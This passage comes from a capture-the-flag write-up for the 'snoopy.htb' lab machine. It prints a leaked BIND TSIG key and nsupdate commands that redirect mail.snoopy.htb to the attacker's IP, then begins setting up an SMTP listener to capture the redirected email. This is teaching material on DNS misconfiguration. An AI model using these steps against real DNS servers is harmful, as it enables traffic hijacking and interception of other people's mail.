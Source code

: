 This also configures the `allow-transfer`. It also has an `allow-update` value, which says that anyone with the `rndc-key` can update!

### Access to Mattermost

#### Update mail.snoopy.htb

The Bind9 docs have a [section on TSIG](https://bind9.readthedocs.io/en/v9_16_22/advanced.html#tsig):

> TSIG (Transaction SIGnatures) is a mechanism for authenticating DNS messages, originally specified in [**RFC 2845**](https://datatracker.ietf.org/doc/html/rfc2845.html). It allows DNS messages to be cryptographically signed using a shared secret. TSIG can be used in any DNS transaction, as a way to restrict access to certain server functions (e.g., recursive queries) to authorized clients when IP-based access control is insufficient or needs to be overridden, or as a way to ensure message authenticity when it is critical to the integrity of the server, such as with dynamic UPDATE messages or zone transfers from a primary to a secondary server.

The docs calls out `nsupdate` as the tool to do dynamic DNS updates with TSIG.

I’ll create a file with the steps I want to do, and another with the key:

```
oxdf@hacky$ cat poison_dns.txt
server 10.10.11.212
zone snoopy.htb
update add mail.snoopy.htb 86400 IN A 10.10.14.6
send
oxdf@hacky$ cat rndc.key
key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};

```

If I ask the DNS server for `mail.snoopy.htb` before making changes, it comes back empty. I’ll run `nsupdate` and then it shows my IP:

```
oxdf@hacky$ dig mail.snoopy.htb +noall +answer @10.10.11.212
oxdf@hacky$ nsupdate -k rndc.key poison_dns.txt
oxdf@hacky$ dig mail.snoopy.htb +noall +answer @10.10.11.212
mail.snoopy.htb.        86400   IN      A       10.10.14.6

```

It seems this resets every two minutes, so I’ll need to work fast, or be ready to come back and update this again.

#### Capture Email

With the DNS pointed at my host, I’ll run a simple Python SMTP server using the `aoismtpd` module. Just like the `http.server` module, it can be run from the command line to create a simple server like `python -m aiosmtpd -n -l 0.0.0.0:25`. `-n` tells it not to try to set the UID (which is important since I’m not running as root). `-l 0.0.0.0:25` tell it to listen on 25. I’ve got my Python configured with capabilities to allow for listening on low ports:
